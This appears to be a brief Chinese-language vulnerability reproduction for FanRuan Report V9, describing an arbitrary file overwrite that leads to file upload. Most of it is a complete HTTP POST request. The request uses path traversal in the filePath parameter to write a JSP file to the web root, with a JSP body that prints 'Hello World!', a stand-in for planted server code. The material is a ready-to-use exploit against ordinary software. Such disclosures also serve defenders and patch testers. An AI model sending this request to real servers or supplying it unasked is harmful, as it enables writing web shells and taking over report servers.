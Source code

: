 # 帆软报表 V9 任意文件覆盖文件上传

## 漏洞描述

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传

## 漏洞影响

```
帆软 V9
```

## 漏洞复现

![314e84b5-e2ac-4e12-9942-653a8b2445a4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091128879.png)

```plain
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}
```

